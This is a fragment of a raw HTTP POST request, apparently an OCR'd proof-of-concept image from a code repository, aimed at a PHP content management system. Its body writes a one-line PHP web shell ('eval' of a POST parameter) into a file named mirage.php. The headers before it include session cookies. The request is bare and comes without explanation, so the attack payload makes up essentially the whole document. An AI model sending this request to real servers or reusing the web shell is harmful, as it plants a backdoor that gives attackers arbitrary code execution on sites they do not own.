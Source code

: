 ```
Accept-Language: zh-CN,zh;q=0.9
Cookie: Nav=ut-frame; Lock=0; LCMSCID=eNoBMADP_0xi_M4DSIoRPJX0GmjWp8P0dR_nRDrVaQtwMd_VebHzo4R6BzTlLJOsxv0ZZWuUZkyuGGA; Hm_lvt_e3403438a2b250ca086ee44c2c5ebf72=1723189774; Language=zh; PHPSESSID=q482tkj0h2mqko9m7bumq149g5
Connection: close

module=ut-frame&skin=front&page=mirage.php&content=%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E
```
